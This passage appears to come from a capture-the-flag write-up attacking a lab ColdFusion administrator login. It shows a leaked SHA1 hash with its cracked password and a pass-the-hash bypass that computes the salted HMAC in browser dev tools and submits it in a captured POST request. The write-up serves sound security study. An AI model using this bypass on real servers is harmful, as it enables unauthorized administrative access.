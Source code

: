 That password fields looks like a hash, and given the length, it looks
like a SHA1: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03.

#### Log In

From here there's two ways to go. This hash is easily cracked, and in
fact is already cracked in [CrackStation](http://crackstation.net):

![](/img/image-20200513074833739.png)

I can enter `happyday` into the password field and it successfully logs
in.

However, what if the user had picked a really strong password that I
couldn't easily break? I can actually work around that here too.

Remember from above that JavaScript takes the password input
(`happyday`), makes a SHA1 hash, and then a keyed HMAC hash of that
result, and submits the key (or salt) with the hash to the site. So it
makes sense that I can do that locally with the leaked hash (which is
also described [here](https://nets.ec/Coldfusion_hacking#Logging_In))

I can go into the Firefox developer tools and use the same functions to
get the hash that's submitted. To reference the salt on the page, I'll
use `document.loginform.salt.value`. Then I'll give the leaked SHA1:



    hex_hmac_sha1(document.loginform.salt.value, '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03');



It gives a result:

![](/img/image-20200513081248163.png)

I'll submit the form, and modify the hash based on the calculations:



    POST /CFIDE/administrator/enter.cfm HTTP/1.1
    Host: 10.10.10.11:8500
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.11:8500/CFIDE/administrator/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 141
    Connection: close
    Cookie: CFID=100; CFTOKEN=20430451; CFADMIN_LASTPAGE_ADMIN=%2FCFIDE%2Fadministrator%2Fhomepage%2Ecfm
    Upgrade-Insecure-Requests: 1

